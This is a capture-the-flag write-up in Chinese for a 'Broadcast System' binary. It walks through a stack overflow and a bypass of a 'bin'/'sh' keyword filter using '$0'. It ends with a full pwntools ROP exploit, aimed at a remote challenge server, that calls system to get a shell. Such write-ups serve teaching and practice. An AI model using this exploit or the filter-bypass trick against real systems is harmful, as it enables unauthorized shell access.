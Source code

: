 打开程序，发现是一个广播系统
一开始需要输入一个channel
在IDA中main函数里发现了这里的使用
```c
  puts("Please select a broadcast channel(1-100)");
  read(0, buf, 0x10uLL);
```
这里的buf不是一个局部变量，而是一个全局变量，存在0x6020D0
同时下一个函数会对这个buf进行检查
```c
char *__fastcall bbash_check(const char *a1)
{
  char *result; // rax

  if ( strstr(a1, "bin") || (result = strstr(a1, "sh")) != 0LL )
  {
    puts("--------------------------------------");
    puts("*********Attack detected**************");
    puts("--------------------------------------");
    system("echo 'get out of here!'");
    exit(0);
  }
  return result;
}
```
可以发现，如果buf含有bin或sh，会检测失败，同时这里带有system函数，考虑利用这个system
在MENU中的broadcast功能中，有一个栈溢出
```c
ssize_t broad()
{
  char buf; // [rsp+0h] [rbp-10h]

  puts("Please input the message you want to broadcast:");
  return read(0, &buf, 0x30uLL);
}
```
所以考虑利用这个溢出来劫持RIP跳到system函数执行的地方
至于system函数的参数可以利用buf来传递
也就是构造 system(buf)
参数的问题可以利用ropgadget，然后再ret到call system的地方
至于buf的内容，由于bin,sh都被过滤了，不能直接用
但是 $0 等价于 /bin/sh
于是往buf中写入 $0 然后劫持rip到pop rdi 再 ret 到 call system ，即可

完整 exp:
```python
from pwn import *
context.log_level = 'debug'
#p = process('./Broadcast System')
p = remote('39.97.167.120', '56725')
e = ELF('./Broadcast System')
p.recv()
p.sendline('$0\x00')


def broad(text):
    p.recvuntil('choice:\n')
    p.sendline('B')
    p.recvuntil('broadcast:\n')
    p.send(text)


pop_rdi = 0x400de3

padding = 'a'*24
payload = padding+p64(pop_rdi)+p64(0x6020D0)+p64(0x400AFB)


broad(payload)

p.interactive()
```